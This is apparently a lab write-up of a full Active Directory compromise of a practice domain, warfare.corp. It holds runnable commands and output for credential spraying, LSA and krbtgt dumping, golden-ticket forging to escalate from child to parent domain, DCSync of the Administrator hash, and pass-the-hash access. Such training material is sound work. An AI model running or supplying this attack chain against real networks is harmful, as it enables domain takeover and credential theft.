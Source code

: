 #### Initial Access of the newly accessible network
``#nmap -v -sn 192.168.98.0/24 2>/dev/null 
After deep search: 
![[Pasted image 20250825194641.png]]
![[Pasted image 20250825194658.png]]
So now we know what we're targeting: with this we narrowed down the list to **.2 and .120 hosts** to spray in a next stage -> [targets.txt]

Remember this credential we found earlier in Firefox files:
![[Pasted image 20250823204444.png]]
Creds: 
	**Username: john**
	**Password: User1@#$%6**
--> Adding **.30** host to the list -> [targets.txt]

Let’s spray the discovered live hosts in the network using crackmapexec toolkit.
``# vim targets.txt
![[Pasted image 20250825195112.png]]

``#crackmapexec --verbose smb targets.txt -u john -p 'User1@#$%6'
![[Pasted image 20250823205056.png]]

Perfect! User **John** is a local administrator at “192.168.98.30” machine, the name is “MGMT

Now, let’s dump the LSA (Authentication Handler & Secrets Manager) process using crackmapexec toolkit, it utilizes impacket's module secretsdump for the same

``#crackmapexec --verbose smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa
![[Pasted image 20250823210132.png]]


To recap: 
*) Validated Credentials
Username: john
Password: User1@#$%6
Domain: child.warfare.corp
Host: 192.168.98.30 (Hostname: MGMT)
Access: Local Administrator (Pwn3d!)

*) Dumped Cached Logon Hashes
CHILD.WARFARE.CORP/john:$DCC2$10240#john#9855312d42ee254a7334845613120e61
CHILD.WARFARE.CORP/corpmngr:$DCC2$10240#corpmngr#7fd50bbab99e8ea7ae9c1899f6dea7c6


*) Machine Account Hashes (CHILD\MGMT$)
aes256-cts-hmac-sha1-96: 344c70047ade222c4ab35694d4e3e36de556692f02ec32fa54d3160f36246eec
aes128-cts-hmac-sha1-96: aa5b3d84614911fe611eafbda613baaf
des-cbc-md5:             6402e0c20b89d386
NTLM:                    aad3b435b51404eeaad3b435b51404ee:0f5fe480dd7eaf1d59a401a4f268b563


*) DPAPI Secrets (Data Protection API keys)
dpapi_machinekey: 0x34e3cc87e11d51028ffb38c60b0afe35d197627d
dpapi_userkey:    0xb890e07ba0d31e31c758d305c2a29e1b4ea813a5

*) NL$KM Secret (used to encrypt cached credentials)
NL$KM:
df885acfa168074cc84de093af76093e726cd092e9ef9c72d6fe59c6cbb70382
d896c9569b67dcdac871dd77b96916c8c1187d40c118474c481ddf62a7c04682


**AND we got the clear-text credentials of the user “corpmngr” **
![[Pasted image 20250823211111.png]]
Creds: (MGMT Machine)
- Username: corpmngr
- Password: User4&*&*

Again, let’s spray the credentials in the network using the new creds 
``#crackmapexec --verbose smb targets.txt -u corpmngr -p 'User4&*&*'

![[Pasted image 20250824093125.png]]

--> We got working creds as local **Administrator** in the **CDC** machine at **192.168.98.120**
Creds: (CDC Machine)
- Username: corpmngr
- Password: User4&*&*


Since we know the machine name & the domain, let’s update the same on our hosts file.

``#vim /etc/hosts
```
192.168.98.2 warfare.corp dc01.warfare.corp  
192.168.98.120 child.warfare.corp cdc.child.warfare.corp
```

![[Pasted image 20250824093042.png]]

Since we are local administrator in the Child DC (.120), let's extract the hash of **KRB TGT** (Ticket Grant Ticket) account using impacket secretsdump script. We will forge a **KRB TGS** (Golden Ticket) to compromise the Parent DC (.2)

``#impacket-secretsdump -debug child/corpmngr:'User4&*&*'@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

![[Pasted image 20250824093750.png]]

```
[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
...
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
```

We will now perform SID Extraction using lookupsid python script.

```
Child Grabbing:
# impacket-lookupsid child/corpmngr:'User4&*&*'@child.warfare.corp  

Parent Grabbing:
# impacket-lookupsid child/corpmngr:'User4&*&*'@warfare.corp  
```

Child SID Found:
![[Pasted image 20250824094245.png]]

Parent SID Found: 
![[Pasted image 20250824094429.png]]

For now, here's what we have: 
```
- krbtgt aes256 Hash  
ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2  
- Parent SID : S-1-5-21-3375883379-808943238-3239386119  
- Child SID : S-1-5-21-3754860944-83624914-1883974761  
```

We will forge golden ticket using ticketer as follows and then set the ccache file to the environment variable :  
``# impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'
``# export KRB5CCNAME=corpmngr.ccache 

![[Pasted image 20250824095041.png]]

Request Service Ticket using the ccache file & export: 
![[Pasted image 20250824095305.png]]

Parent Domain Controller Takeover: 
``# impacket-secretsdump -k -no-pass dc01.warfare.corp -just-dc-user 'warfare\Administrator' -debug
![[Pasted image 20250824095532.png]]

```
[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Using Kerberos Cache: corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
[+] Domain retrieved from CCache: CHILD.WARFARE.CORP
[+] Returning cached credential for CIFS/DC01.WARFARE.CORP@WARFARE.CORP
[+] Using TGS from cache
[+] Changing sname from CIFS/dc01.warfare.corp@WARFARE.CORP to CIFS/DC01.WARFARE.CORP@CHILD.WARFARE.CORP and hoping for the best
[+] Username retrieved from CCache: corpmngr
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Calling DRSCrackNames for warfare\Administrator 
[+] Calling DRSGetNCChanges for {17446816-c072-445e-ac9b-c0e28630bed6} 
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=warfare,DC=corp
Administrator:500:aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283:::
[+] Leaving NTDSHashes.__decryptHash
[+] Entering NTDSHashes.__decryptSupplementalInfo
[+] Leaving NTDSHashes.__decryptSupplementalInfo
[+] Finished processing and printing user's hashes, now printing supplemental information
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:b8844cc6622c448c9b9f657e7a67ad7f9f26fa2c1c7520b7f1ad28389c6fdb91
Administrator:aes128-cts-hmac-sha1-96:cea9408d32669cad4f2938252928b38d
Administrator:des-cbc-md5:614ce65740c8b0a8
[*] Cleaning up... 
```

Let’s access with Administrator credentials the **Parent DC** (dc01)
``# impacket-psexec -debug 'warfare/Administrator@dc01.warfare.corp' -hashes aad3b435b51404eeaad3b435b51404ee:b2ab0552928c8399da5161a9eb7fd283

![[Pasted image 20250824095742.png]]
